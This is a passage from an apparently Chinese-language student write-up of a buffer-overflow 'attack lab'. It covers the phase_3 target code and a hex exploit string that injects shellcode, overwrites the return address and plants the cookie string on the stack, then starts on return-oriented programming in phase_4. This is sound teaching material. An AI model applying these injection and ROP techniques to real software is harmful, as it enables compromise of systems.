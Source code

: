 ```cpp
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3;
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

#### 分析

首先 `cookie` 转为 `ASCII` 不必多言，关键是字符串存储在何处，若简单地存放在 `getbuf()` 栈中，返回之后调用 `touch3()` 和 `hexmatch()` 时可能会覆盖（当然本题计算这两个函数栈大小也可以）那么就可以考虑将字符存储在 `text()` 的栈帧中，就不存在覆盖问题了，其余和 `phase_2` 大同小异。

#### 答案

```assembly
48 c7 c7 a8 dc 61 55 68 /* mov  $0x5561dca8, %rdi;   pushq  $0x4018fa;   ret */
fa 18 40 00 c3 00 00 00 /* 0x5561dca8 is the address of cookie(Line 7)       */
00 00 00 00 00 00 00 00 /* 0x004018fa is the address of touch3()             */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address of Line 1 */
35 39 62 39 39 37 66 61 /* cookie(ASCII)     */
00 00 00 00 00 00 00 00
```

### phase_4

#### 目标

本题要实现 `phase_2` 一样的目标，只不过由于禁止栈执行，不能使用代码注入的方法。

#### 分析

先简单介绍一下ROP攻击的原理，比如我们汇编代码中有这样一个函数：

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```
